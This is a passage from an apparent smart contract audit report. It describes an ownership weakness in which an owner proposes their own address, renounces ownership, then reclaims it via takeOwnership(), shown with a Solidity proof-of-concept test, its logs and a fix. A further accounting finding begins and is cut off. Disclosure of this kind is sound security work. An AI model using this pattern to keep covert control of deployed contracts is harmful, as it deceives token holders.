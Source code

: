 ## Proof of Concept

To accomplish this attack, an owner would:
- propose a new owner of an address they control
- renounce their ownership, or transfer it to a new owner
- later, call `takeOwnership()` from the proposed owner address to seize it back.

Here is a test that can be dropped into your test suite to demonstrate this behavior:
```solidity
function testZ__ProposedOwner() public {
    // Initialize a token that uses ProposableOwnable, setting myself to owner
    IndexToken token = new IndexToken();
    token.initialize("Fake Token", "FAKE", 1e18);
    console.log(token.owner());

    // Propose myself as the new owner.
    token.proposeOwner(address(this));

    // Renounce my ownership, apparently giving up control.
    token.renounceOwnership();
    console.log(token.owner());

    // Because I'm still in the proposedOwner slot, I can still reclaim.
    token.takeOwnership(address(this));
    console.log(token.owner());
}
```

```
Logs:
  0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
  0x0000000000000000000000000000000000000000
  0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
```

### Recommendation

Use OpenZeppelin's [Ownable2StepUpgradeable.sol](https://github.com/OpenZeppelin/openzeppelin-contracts-upgradeable/blob/master/contracts/access/Ownable2StepUpgradeable.sol) contract instead.

### Review

Acknowledged, will fix in future release.

## [M-04] If bounty is created without all underlying tokens, accounting will be permanently thrown off

When a bounty is created, it includes a `nominal` value for each underlying token.

If the token is not going to be adjusted, the `nominal` value should equal the previous nominal amount, minus all fees that have accrued since then.

```solidity
uint256 realUnitsAtLastFeeTimestamp = fmul(
    vault.virtualUnits(token),
    trackedMultipler
);

if (realUnitsAtLastFeeTimestamp > targetUnits) {
    uint256 diff = realUnitsAtLastFeeTimestamp - targetUnits;
    uint256 underlyingAmount = fmul(diff, startingSupply);
    ....
```
This is because, at the end of rebalancing, the `nominal` value is set, and the `lastKnownMultiplier` is reset to `SCALAR`.
